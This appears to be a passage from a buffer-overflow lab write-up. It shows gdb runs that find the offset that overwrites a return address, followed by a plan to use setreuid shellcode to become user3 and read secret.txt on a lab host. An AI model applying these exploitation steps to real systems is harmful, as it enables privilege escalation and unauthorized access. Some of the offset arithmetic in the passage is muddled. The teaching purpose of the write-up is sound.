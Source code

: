 ```
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from buffer-overflow-2...(no debugging symbols found)...done.
(gdb) run $(python2 -c "print 'A' * 154-5+8")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python2 -c "print 'A' * 154-5+8")
Traceback (most recent call last):
  File "<string>", line 1, in <module>
TypeError: unsupported operand type(s) for -: 'str' and 'int'
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7abfe67 in __strcat_sse2_unaligned () from /lib64/libc.so.6


Not enough to overwrite the return address. Let’s add 8 more bytes: 

(gdb) run $(python2 -c "print 'A' * (154-5+8*2)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python2 -c "print 'A' * (154-5+8*2)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()

Good, we start seing 2 times ‘A’ overwritting the return address. We need 6 in total, so we need 4 more: 

(gdb) run $(python2 -c "print 'A' * (154-5+8*2+4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python2 -c "print 'A' * (154-5+8*2+4)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()

The offset is 169 (154-5+8*2+4). 

so here 169 -6 = 163-5 = 158

Shellcode

We’ll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read secret.txt:

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ ssh user1@10.10.2.237                            
user1@10.10.2.237's password: 
Last login: Tue Oct 18 00:33:01 2022 from ip-10-13-51-212.eu-west-1.compute.internal

       __|  __|_  )
       _|  (     /   Amazon Linux 2 AMI
      ___|\___|___|

https://aws.amazon.com/amazon-linux-2/
[user1@ip-10-10-2-237 ~]$ grep user3 /etc/passwd
user3:x:1003:1003::/home/user3:/bin/bash

```